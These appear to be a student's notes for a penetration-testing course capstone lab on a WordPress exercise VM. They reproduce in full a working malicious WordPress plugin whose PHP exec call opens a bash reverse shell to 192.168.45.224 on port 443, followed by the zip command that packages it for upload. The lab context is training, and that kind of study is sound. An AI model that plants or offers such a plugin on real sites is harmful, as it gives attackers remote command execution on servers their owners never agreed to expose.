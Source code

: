 3. **Capstone Lab**: Start Module Exercise VM 1 and add a new administrative account like we did in this Learning Unit. Next, craft a WordPress plugin that embeds a web shell and exploit it to enumerate the target system. Upgrade the web shell to a full reverse shell and obtain the flag located in **/tmp/**. Note: The WordPress instance might show slow responsiveness due to lack of internet connectivity, which is expected.

Basically followed this blog to get web shell:

https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.224/443 0>&1'");
?>

```

`zip revsh-plugin.zip revshplugin.php`

![[Pasted image 20250127230306.png]]
